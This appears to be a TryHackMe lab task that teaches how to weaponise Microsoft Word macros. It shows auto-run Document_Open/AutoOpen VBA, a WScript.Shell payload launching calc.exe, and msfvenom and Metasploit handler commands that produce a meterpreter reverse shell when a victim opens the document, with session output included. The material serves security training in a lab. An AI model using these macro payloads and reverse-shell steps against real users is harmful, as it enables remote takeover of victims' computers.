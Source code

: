 Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.   

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through in-browser access.

Now open Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial period.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/2ceed0307819cf06500e6524a5f632d7.png)  

Next, make sure to accept the Microsoft Office license agreement that shows after closing the product key window.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/feb2f077507c6c242658e76ee88fb544.png)

Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/5e12755e9b891865c6ef07e25047060b.png)  

In the Macro name section, we choose to name our macro as THM. Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:

```javascript
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```

Finally, run the macro by F5 or Run → Run Sub/UserForm.

Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.

```javascript
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/a5e35b7436173da709dae5695c34d4f9.png)  

Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Let's enable it and move forward to check out the result.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e140bfbce59d6cf3e71489dba094adc2.png)  

Once we allowed the Enable Content, our macro gets executed as shown,

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/ca228c238732dcdf21139317992a0083.png)  

Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,  

```javascript
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document_open() functions too.

Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/5c80382621d3fcb578a9e128ca821e71.png)

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.

Answer the questions below

Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.

Terminal

```shell-session
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf==Module==Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```

The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

**Import to note** that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:

Terminal

```shell-session
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.

Terminal

```shell-session
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
```

Now replicate and apply what we discussed to get a reverse shell!